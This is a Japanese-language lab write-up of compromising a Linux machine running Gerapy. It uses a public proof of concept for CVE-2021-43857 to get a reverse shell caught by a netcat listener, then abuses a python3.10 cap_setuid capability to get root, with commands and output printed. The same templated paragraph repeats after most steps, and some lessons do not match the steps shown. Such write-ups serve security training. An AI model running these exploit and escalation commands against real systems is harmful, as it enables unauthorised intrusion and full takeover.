

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | Webアプリケーションおよび公開ネットワークサービス |
| 主な侵入経路 | Web RCE (CVE-2021-43857) |
| 権限昇格経路 | ローカル列挙 → 設定ミスの悪用 → root |

## 認証情報

認証情報なし。

## 偵察

---
💡 なぜ有効か
このフェーズでは到達可能な攻撃対象をマッピングし、攻撃が最も成功しやすい箇所を特定します。正確なサービスおよびコンテンツの探索により、無闇なテストを減らし、ターゲットを絞った後続アクションを促進します。

## 初期足がかり

---

*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
python3 exploit.py -t 192.168.178.24 -p 8000 -L 192.168.45.166 -P 4444
```

```bash
❌[1:46][CPU:12][MEM:63][TUN0:192.168.45.166][...Levram/CVE-2021-43857-POC]
🐉 > python3 exploit.py -t 192.168.178.24 -p 8000 -L 192.168.45.166 -P 4444
[INFO] Logging in to Gerapy...
[INFO] Login successful.
[INFO] Fetching project list...
[INFO] Using project: test
[INFO] Fetching build details for project 'test'...
[INFO] Found project ID: 1
[INFO] Starting netcat listener...
[INFO] Sending exploit payload...
listening on [any] 4444 ...

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
nc -lvnp 4444
```

```bash
❌[1:46][CPU:18][MEM:64][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.24] 51760
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$

```

local.txt を取得:
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
find / -iname local.txt 2>/dev/null
cat /home/app/local.txt
```

```bash
app@ubuntu:~$ find / -iname local.txt 2>/dev/null
/home/app/local.txt
app@ubuntu:~$ cat /home/app/local.txt
96a5b02c4dad361c9276ac69edfca332
```

💡 なぜ有効か
初期足がかりのステップでは、発見した脆弱性を連鎖させてターゲットへの実行制御を確立します。有効な足がかり技術は、コマンド実行またはインタラクティブなシェルのコールバックによって検証されます。

## 権限昇格

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash

/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
```

```bash
app@ubuntu:/tmp$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@ubuntu:/tmp# id

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
cat /root/proof.txt
```

```bash
root@ubuntu:/tmp# cat /root/proof.txt
97eb66bd4855acee30143adb50590ff0

```

💡 なぜ有効か
権限昇格はローカルの設定ミス、安全でないパーミッション、信頼された実行パスに依存します。これらの信頼境界を列挙して悪用することが root レベルのアクセスへの最速ルートです。

## まとめ・学んだこと

- 本番同等の環境でフレームワークのデバッグモードとエラー露出を検証する。
- 特権ユーザーやスケジューラーが実行するスクリプト・バイナリのファイルパーミッションを制限する。
- ワイルドカード展開やスクリプト化可能な特権ツールを避けるため sudo ポリシーを強化する。
- 露出した認証情報と環境ファイルを重要機密として扱う。

### 攻撃フロー

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2021-43857: https://nvd.nist.gov/vuln/detail/CVE-2021-43857
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
